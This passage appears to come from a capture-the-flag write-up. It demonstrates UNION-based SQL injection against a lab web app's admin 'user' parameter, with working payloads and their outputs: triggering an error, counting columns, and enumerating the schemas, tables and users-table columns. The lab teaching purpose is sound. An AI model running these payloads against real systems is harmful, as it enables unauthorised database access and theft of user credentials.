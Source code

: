 If we click on a user we get a page to delete the user and more interestingly a parameter in the url
```
http://10.10.160.210:32768/admin?user=2
```

We quickly test for sqli with a '
```
http://10.10.160.210:32768/admin?user=2%27

Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```

So we have sqli so lets figure out how many columns we have. 
```
10.10.160.210:32768/admin?user=2 order by 5
```

After testing 2-4 we find that we receive an error on 5, so we have 4 columns. Looking at the user listing we know there is no user 0 so we can see which columns are reflected with the following
```
http://10.10.160.210:32768/admin?user=0 union select 1,2,3,4

User 1
User 2
ID: 1
Is administrator: true 
```

So it seems columns 1 and 2 are reflected. Next lets enumerate the database
```
user=0 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -

User 1
User information_schema,marketplace
ID: 1
Is administrator: true 
```

marketplace is our database next lets get the tables
```
10.10.160.210:32768/admin?user=0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -

User 1
User items,messages,users
ID: 1
Is administrator: true 
```

Lets get some user information first, so lets get the columns for the users table
```
http://10.10.160.210:32768/admin?user=0 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'-- -

User 1
User id,isAdministrator,password,username
ID: 1
Is administrator: true 
```
